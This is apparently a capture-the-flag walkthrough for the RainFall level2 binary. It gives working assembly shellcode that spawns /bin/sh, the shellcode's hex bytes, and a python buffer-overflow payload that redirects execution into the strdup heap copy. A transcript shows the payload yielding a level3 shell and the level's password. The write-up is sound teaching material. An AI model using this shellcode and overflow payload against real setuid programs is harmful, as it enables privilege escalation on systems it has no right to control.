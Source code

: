 # level2

According to `file` :

```bash
level2@RainFall:~$ file level2
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

So we know we want to spawn a shell while having the privilege of `level3`.

Let's analyse further with `objdump` :

```text
level2@RainFall:~$ objdump -Mintel -d level2

level2:     file format elf32-i386

...

080484d4 <p>:
 80484d4:       55                      push   ebp
 80484d5:       89 e5                   mov    ebp,esp
 80484d7:       83 ec 68                sub    esp,0x68
 80484da:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484df:       89 04 24                mov    DWORD PTR [esp],eax
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4]
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    eax,0x8048620
 804850c:       8b 55 f4                mov    edx,DWORD PTR [ebp-0xc]
 804850f:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048513:       89 04 24                mov    DWORD PTR [esp],eax
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    

0804853f <main>:
 804853f:       55                      push   ebp
 8048540:       89 e5                   mov    ebp,esp
 8048542:       83 e4 f0                and    esp,0xfffffff0
 8048545:       e8 8a ff ff ff          call   80484d4 <p>
 804854a:       c9                      leave  
 804854b:       c3                      ret    
 804854c:       90                      nop
 804854d:       90                      nop
 804854e:       90                      nop
 804854f:       90                      nop
```

Unlike *level2*, it does not have any existing code in the `.text` section to spawn a shell. In our exploit, we will have somehow to *add* additional code to spawn it. This is what we call a **shell code** : a small piece of code used as the payload in the exploitation of a software vulnerability.

In function `p`, the very unsafe `gets` get called again. Great, that is an wide open door for a **buffer overflow** : that means we can overwrite the return address of function `p` on the stack. But where should we return to ?

Remember when i talked about adding additional code. We can add this code in the initial buffer that `gets` uses, and modify the return address to point into our additional injected code that is located into the stack.

But there may be a problem using this technique in this particular setup, take a look at this snippet of instructions:

```
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4] <---
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
```

It performs a check on the return address `ebp + 0x4` !  Basically, it checks if the most significant byte of the return address is `0xb`, which would mean that we manipulated it so it points on the stack. This would prevent us from correctly redirecting the execution flow into our shellcode. If this check doesn´t pass, we jump to `0x8048527` :

```
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    
```

It echoes back when we just wrote into the buffer, and then proceed to duplicate the stack-allocated buffer into an heap-allocated region. Interesting ! So instead of modifying our return address so it points on our buffer that is allocated into the stack, we could modify it so it points into the heap-allocated region instead ! It will contains exactly the same data as it is duplicated.

The challenge here is that our shell code must not include any NUL byte (`0x00`), since it will end prematurely `strdup` (remember that a C strings are always nul-terminated).

## Crafting the shellcode

Let's do some assembly to craft our shellcode, shall we ?

```asm
bits 32

section .text

global _start

_start:
    jmp .shell_define
.ret:
    pop ebx
    xor eax, eax
    mov ecx, eax
    mov edx, eax
    mov al, 0x0b
    int 0x80
.shell_define:
    call .ret
    shell db "/bin/sh", 0
```

This is a basic program that `execve` a shell. Note the trick to get the address of the string `/bin/sh` : at the beginning we immediately jump to a `call .ret`, which pushes the address of `/bin/sh` into the stack and jump to `pop ebx`, which pop the address of `/bin/sh` into the register `ebx`. This trick is used to dynamically get the address, since we do not know the exact address our shellcode will be injected.
Do note that we use the **relative** version of `jmp` and `call`, so we can indicate **offsets** instead of **absolute address**.

We are using x86 calling conventions and `int 0x80` to trap into kernel mode for the syscall.
Now, let's compile the source into an object file, and dump the `.text` section :

```bash
$> nasm -f elf32 shellcode.s
$> readelf --sections shellcode.o
There are 15 section headers, starting at offset 0x40:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [ 1] .text             PROGBITS        00000000 0002a0 00001a 00  AX  0   0 16
  ...

```

Offset is `0x2a0` into the file and the size of our shellcode is `0x1a`. We can use `xxd` to extract the bytes and `sed` with some regex to format into an hex litteral :

```bash
$> xxd -l0x1a -s0x2a0 -ps shellcode.o | sed -E 's/([a-f0-9]{2})/\\x\U\1/g'
\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00
```

This shellcode doesn't lead to any `0x00` expect for the last byte. `strdup` will stop there. Perfect !

## Putting it together

These are the remaining steps :

  - Find how big the buffer is to know how many bytes we have to fill until overwriting the return address.
  - Set the return address to the return address of `strdup`
  - Craft a python command to inject our **shellcode**, filling characters, and the new **return address**.

Using GDB and the disassembly, we find out that the buffer starting address is located at `ebp - 0x4c` :

```
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
```

 We need to fill 76 bytes (`0x4c` is 76 in decimal) + 4 bytes (because `ebp` has been pushed to the stack, we need to add an extra 4 bytes), to get to the return address location in the stack (that is, `ebp + 4`).

Let's find the return address of `strdup` by setting a breakpoint just after the call :

```
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp, 0x68
   ...
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
(gdb) b *0x0804853d
Breakpoint 1 at 0x804853d
(gdb) r
Starting program: /home/user/level2/level2 
foo
foo

Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008        134520840
```

Our shellcode is 26 bytes long. This is the layout of the bytes we will inject :

```
[shellcode][filling][return_address]
    26        54           4
```

This leads to the following python command :

```
python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'
```

We can then proceed to pwn this program :)

```bash
level2@RainFall:~$ (python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'; cat) | ./level2 
�
 [1����°
        �����/bin/sh
whoami
level3
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```